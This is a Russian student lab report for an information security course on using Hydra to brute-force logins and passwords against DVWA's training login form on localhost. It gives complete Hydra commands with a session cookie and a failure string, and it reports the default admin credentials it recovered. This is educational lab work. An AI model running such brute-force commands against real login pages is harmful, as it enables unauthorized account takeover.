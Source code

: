 ```yaml
---
## Front matter
title: "Отчет по индивидуальному проекту 3"
subtitle: "Дисциплина: Информационная безопасность"
author: "Хрусталев Влад Николаевич"

## Generic otions
lang: ru-RU
toc-title: "Содержание"

## Bibliography
bibliography: bib/cite.bib
csl: pandoc/csl/gost-r-7-0-5-2008-numeric.csl

## Pdf output format
toc: true # Table of contents
toc-depth: 2
lof: true # List of figures
lot: true # List of tables
fontsize: 12pt
linestretch: 1.5
papersize: a4
documentclass: scrreprt
## I18n polyglossia
polyglossia-lang:
  name: russian
  options:
	- spelling=modern
	- babelshorthands=true
polyglossia-otherlangs:
  name: english
## I18n babel
babel-lang: russian
babel-otherlangs: english
## Fonts
mainfont: PT Serif
romanfont: PT Serif
sansfont: PT Sans
monofont: PT Mono
mainfontoptions: Ligatures=TeX
romanfontoptions: Ligatures=TeX
sansfontoptions: Ligatures=TeX,Scale=MatchLowercase
monofontoptions: Scale=MatchLowercase,Scale=0.9
## Biblatex
biblatex: true
biblio-style: "gost-numeric"
biblatexoptions:
  - parentracker=true
  - backend=biber
  - hyperref=auto
  - language=auto
  - autolang=other*
  - citestyle=gost-numeric
## Pandoc-crossref LaTeX customization
figureTitle: "Рис."
tableTitle: "Таблица"
listingTitle: "Листинг"
lofTitle: "Список иллюстраций"
lotTitle: "Список таблиц"
lolTitle: "Листинги"
## Misc options
indent: true
header-includes:
  - \usepackage{indentfirst}
  - \usepackage{float} # keep figures where there are in the text
  - \floatplacement{figure}{H} # keep figures where there are in the text
---
```


# Цель работы

Освоение использования Hydra для перебора логинов и паролей.

# Выполнение лабораторной работы

1. Первоначальный этап - создание файла passwords.txt для хранения паролей.

![Создание файла passwords.txt](image/1.jpg){ #fig:001 width=70% }

2. Затем заполняю passwords.txt соответствующими данными.

![Содержание passwords.txt](image/2.jpg){ #fig:002 width=70% }

3. Переключаю настройки безопасности в приложении DVWA.

![Изменение настроек безопасности в DVWA](image/3.jpg){ #fig:003 width=70% }

4. Осуществляю анализ URL и кук для последующего тестирования брутфорса.

![Анализ URL и кук](image/4.jpg){ #fig:004 width=70% }

5. Запускаю запрос для перебора паролей из passwords.txt для учетной записи admin. В результате успешно нахожу логин и пароль: admin:password.

```bash
hydra -l admin -P ~/passwords.txt 127.0.0.1 http-get-form "/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\:PHPSESSID=25c69iu24q22euc6hjnj2m0sch;security=low:F=Username and/or password incorrect"
```

![Запрос для перебора паролей](image/5.jpg){ #fig:005 width=70% }

6. Создаю файл usernames.txt для перебора логинов.

![Создание файла usernames.txt](image/6.jpg){ #fig:006 width=70% }

7. Заполняю файл usernames.txt соответствующими данными.

![Содержание usernames.txt](image/7.jpg){ #fig:007 width=70% }

8. Изменяю запрос, чтобы произвести перебор паролей и логинов из файлов passwords.txt и usernames.txt. В результате успешно нахожу логин и пароль: admin:password.

```bash
hydra -L ~/usernames.txt -P ~/passwords.txt 127.0.0.1 http-get-form "/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\:PHPSESSID=25c69iu24q22euc6hjnj2m0sch;security=low:F=Username and/or password incorrect"
```

![Измененный запрос](image/8.jpg){ #fig:008 width=70% }

# Выводы

В результате выполнения лабораторной работы освоил использование Hydra для перебора логинов и паролей, отправляя соответствующие запросы.